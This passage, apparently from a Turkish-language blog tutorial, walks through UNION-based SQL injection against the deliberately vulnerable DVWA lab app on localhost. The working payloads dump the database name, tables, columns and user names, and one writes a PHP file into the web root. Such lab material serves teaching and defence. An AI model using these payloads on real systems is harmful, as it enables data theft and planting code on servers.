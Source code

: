 <strong>Veritabanının İsim Bilgisi</strong>

[php] 1' UNION SELECT database(),2 # [/php]

sorgusu ilede database ismine ulaşabiliriz.

&nbsp;

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/09/4.png"><img class="alignnone size-full wp-image-501" src="http://www.gurelahmet.com/wp-content/uploads/2015/09/4.png" alt="4" width="729" height="553" /></a>

<strong>Veritabanındaki Tabloların Belirlenmesi</strong>

[php] 1' UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema = 'dvwa' # [/php]

sorgusu ile daha önce bulduğumuz <strong>dvwa</strong>   database ine ait tabloların isimlerine ulaşabiliriz.<a href="http://www.gurelahmet.com/wp-content/uploads/2015/09/5.png"><img class="alignnone size-full wp-image-502" src="http://www.gurelahmet.com/wp-content/uploads/2015/09/5.png" alt="5" width="770" height="554" /></a>

Buradaki çıktıda<strong> dvwa</strong> veritabanında  <strong>guestbook</strong> ve <strong>users</strong> olmak üzere iki adet tablo olduğunu gördük.

<strong>Tabloların Kolonlarının Belirlenmesi</strong>

[php] 1' UNION SELECT column_name,2 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' # [/php]

sorgusu ile<strong> dvwa</strong> veritabanının <strong>users</strong> tablosunun kolonlarına ulaşabiliriz.

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/09/8.png"><img class="alignnone size-full wp-image-503" src="http://www.gurelahmet.com/wp-content/uploads/2015/09/8.png" alt="8" width="783" height="561" /></a>

Bu çıktıda ise dediğimiz gibi <strong>dvwa</strong> veritabanının <strong>users</strong> tablosunun <strong>user_id</strong>,<strong>first_name</strong>,<strong>last_name</strong>,<strong>user</strong>,<strong>password</strong>,<strong>avatar</strong> adlı kolonlarının olduğunu görmüş olduk.

<strong>Tablolardaki Verileri Ekrana Yazdırma</strong>

[php] 1' UNION SELECT first_name,last_name FROM users # [/php]

sorgusu ilede <strong>dvwa</strong> veritabanındaki <strong>users</strong> tablosundan <strong>first_name</strong> ve <strong>last_name</strong> verilerini çektik.

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/09/veri-cekme.png"><img class="alignnone size-full wp-image-504" src="http://www.gurelahmet.com/wp-content/uploads/2015/09/veri-cekme.png" alt="veri cekme" width="737" height="575" /></a>

<strong>SORGU İLE DOSYA EKLEME</strong>

[php] 1' UNION SELECT '&lt;?php echo &quot;ahmet gurel&quot;;','?&gt;' INTO OUTFILE '/var/www/html/dvwa/ahmet.php' # [/php]

sorgusu ile <strong>ahmet.php</strong> dosyası oluşturup içine küçük bir php kodu ekledik.Buraya daha farklı kodlar ve sayfalar oluşturabiliriz.

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/09/veri-ekleme.png"><img class="alignnone size-full wp-image-505" src="http://www.gurelahmet.com/wp-content/uploads/2015/09/veri-ekleme.png" alt="veri ekleme" width="1012" height="709" /></a>

&nbsp;

Sorgumuz çalıştı ve<strong> ahmet.php</strong> dosyası oluştu.Bu dosyaya <strong>127.0.0.1/dvwa/ahmet.php</strong> adresine gittiğimde görüyorum.

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/09/ver-ekleme2.png"><img class="alignnone size-full wp-image-506" src="http://www.gurelahmet.com/wp-content/uploads/2015/09/ver-ekleme2.png" alt="ver ekleme2" width="1014" height="700" /></a>Burada <strong>admin admin ahmet gurel y</strong>azıyor  aslında  biz php kodumuzda sadece ahmet gurel yazmıstık.Bunun nedeni <strong> UNION</strong> dan önceki 1' çalıştığında ilk kullanıcıyı admin admin döndürüp koda eklemesinden kaynaklanıyor.
